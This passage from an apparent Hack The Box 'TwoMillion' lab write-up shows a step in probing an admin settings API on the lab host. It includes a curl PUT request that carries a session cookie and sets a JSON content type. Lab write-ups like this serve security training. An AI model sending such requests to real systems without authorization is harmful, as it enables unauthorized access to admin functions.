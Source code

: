 ![alt text](HTBImage/2million/settingsupdate.png)

This time, we are getting API replies with `Invalid content type`. 
Lets set the `Content-Type` header to `JSON` and try again, as we know that API's use JSON for sending and receiving data.

`curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=7cggcbut65t0c0m1g8sp3vjhev" --header "Content-Type: application/json" | jq`

![alt text](HTBImage/2million/contenttype.png)
